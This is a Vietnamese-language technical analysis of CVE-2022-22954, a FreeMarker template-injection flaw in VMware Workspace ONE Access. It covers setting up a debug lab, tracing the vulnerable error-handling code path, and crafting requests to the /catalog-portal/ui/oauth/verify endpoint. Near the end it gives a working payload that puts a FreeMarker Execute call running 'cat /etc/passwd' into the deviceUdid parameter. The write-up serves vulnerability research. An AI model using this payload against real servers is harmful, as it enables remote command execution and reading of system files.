









# Phân tích CVE-2022-22954

## Tổng quan 
Workspace ONE Access (mô hình cung cấp không gian làm việc dưới dạng một dịch vụ) cung cấp tính năng xác thực đa yếu tố, đăng nhập một lần và truy nhập có điều kiện cho SaaS, các ứng dụng web và mobile.
CVE-2022-22954 là lỗ hổng Server-side Template Injection tồn tại trên các sản phẩm:
* VMware Workspace ONE Access (Access): v21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0
* VMware Identity Manager (vIDM): v3.3.6, 3.3.5, 3.3.4, và 3.3.3
* VMware vRealize Automation (vRA): v8.x và 7.6
* VMware Cloud Foundation (VCF): v4.x và 3.x
* vRealize Suite Lifecycle Manager: 8.x


## Setup
1. Tải file ova của VMware Workspace ONE Access Appliance phiên bản 21.08.0.1
2. Mở file bằng VMware Workstation, máy ảo cần được đặt tại mạng NAT
3. Tại Networking Properties, cần cấu hình Host Name (FQDN)

    

4. Sau khi quá trình cài đặt xong, truy cập vào đường dẫn *https://{{hostname}}:8443/* để tiến hành cấu hình mật khẩu tài khoản ứng dụng, mật khẩu tài khoản ssh và database của ứng dụng
Ứng dụng được chạy tại *https://{{hostname}}/*

	

5. Đăng nhập vào máy ảo thông qua tài khoản *sshuser*, chuyển sang tài khoản root
Phát hiện đường dẫn ứng dụng tại */opt/vmware/horizon/workspace/*
Mã nguồn ứng dụng tại thư mục */opt/vmware/horizon/workspacce/webapps*

    

6. Kiểm tra file */opt/vmware/horizon/workspace/bin/setenv.sh*, nhận thấy biến *JAVA_OPTS* có thể cấu hình remote debug

    

7. Thêm *-agentlib:jdwp=transport=dt_socket,server=y,address=5005,suspend=n*
vào *JAVA_OPTS* và restart dịch vụ

        `systemctl restart horizon-workspace.service`

## Path Analysis

Tải file hotfix [HW-154129-applyWorkaround.py](https://vmware-gs.my.salesforce.com/sfc/p/f40000003u6t/a/5G0000002Nla/9COLfZG7uu8iDjLoZTis5Ltzmd1H87iToXs9uLZF8IU)

Trong các bước, có bước loại bỏ file **templates/customError.ftl** ra khỏi ứng dụng



Trong file **customError.ftl**, tồn tại hàm *eval*. Lỗi *Freemarker SSTI* có thể khai thác từ đây nếu như có thể kiểm soát được giá trị *errorObj*.





Trong class **com.vmware.enusercatalog.ui.web.UiErrorController**, ta thấy hàm **handleGenericError** gán giá trị vào **errorObj** thông qua biến **errorMessage**



Tiếp tục theo dõi các lời gọi hàm và tham số **errorMessage**

Hàm **handleUnauthorizedError**


Hàm **getErrorPage**


Tới hai hàm **sendError** và **sendUnhandledError**, giá trị của **errorMessage** được lấy từ thuộc tính *javax.servlet.error.message*


Trong class **com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver**, thuộc tính *javax.servlet.error.message*”* được gán giá trị tại hàm **resolverExeption**


Hàm **handleAnyGenericExeption** được gán annotation *@ExeptionHandler*


Tại class **com.vmware.endusercatalog.ui.UiApplication**, trong các gói được gán nhãn *@CommponentScan* có **com.vmware.endusercatalog.auth**


=> Các exception tại gói này có thể được bắt bởi hàm handleAnyGenericExeption

Tại **com.vmware.endusercatalog.ui.config**, interceptor **AuthContextPopilationInterceptor** được thêm với các đường dẫn */ui*, */hub-ui*, */hub-ui/byob*, */logout*, */ui/oauth/verify*


Chuyển hướng tới class **com.vmware.endusercatalog.auth.interceptor.AuthContextPopulationInterceptor**, tại hàm **preHandle**, ứng dụng nhận 2 tham số **deviceUdid** và **deviceType** và gọi hàm **authContextBuilder**



Tại class **com.vmware.endusercatalog.auth.interceptor.AuthContext**, exception **InvalidAuthContextException** sẽ xuất hiện nếu điều kiện **this.isValidRequest** không thỏa mãn


Để **isValidRequest** thỏa mãn, 2 tham số **this.deviceId** và **this.deviceType** cần đồng thời rỗng hoặc đồng thời có giá trị



=> chỉ truyền giá trị cho 1 trong 2 tham số sẽ xuất hiện lỗi ở đây


Gửi request 
```
GET /catalog-portal/ui/oauth/verify?deviceUdid=111 
```
xuất hiện lỗi 
```
An unexpected error occurred while processing request with requestId: {0}.
```

Quay lại hàm **com.vmware.endusercatalog.ui.web.WorkspaceOauth2CodeVerificationController** nhận thấy lỗi trên xuất hiện do thiếu tham số yêu cầu **error**

```java
    @GetMapping(
        value = {"/ui/oauth/verify"},
        params = {"error"}
    )
    @ApiOperation(
        value = "authorizeError",
        notes = ""
    )
    public void authorizeError(@ApiParam @RequestParam String error, @ApiParam @RequestParam(name = "error_description") String errorDescription, @ApiParam @RequestParam(defaultValue = "/admin/") String state) {
        LOGGER.debug("Failed to obtain authorization code due to {}:{} received for {}", new Object[]{error, errorDescription, state});
        throw new AuthorizationCodeFailedRetrievalException(new Object[]{error, state});
    }
```

Gửi lại request 
```
GET /catalog-portal/ui/oauth/verify?error=&deviceUdid=111abc 
``` 
giá trị của deviceUdid xuất hiện tron response


Chèn tham số gây lỗi SSTI của Freemarker


Gửi request với giá trị 
```
deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```


## EXPLOIT



